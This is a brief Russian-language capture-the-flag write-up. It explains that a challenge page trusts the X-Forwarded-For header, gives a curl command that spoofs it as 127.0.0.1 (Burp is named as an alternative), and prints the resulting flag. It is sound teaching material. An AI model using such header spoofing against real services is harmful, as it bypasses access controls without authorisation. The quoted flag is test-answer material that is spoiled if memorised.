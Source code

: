 ## После изучения исходника [index.php](index.php) видим что он проверяет лишь HTTP-X-FORWARD а его легко подменить 
Можно через curl
```
curl -H "X-Forwarded-For: 127.0.0.1" http://chal.competitivecyber.club:8081
```
А можно и через burp перехватить запрос и добавить хедер
## Получаем флаг CACI{1_lik3_g1raff3s_4_l0t}
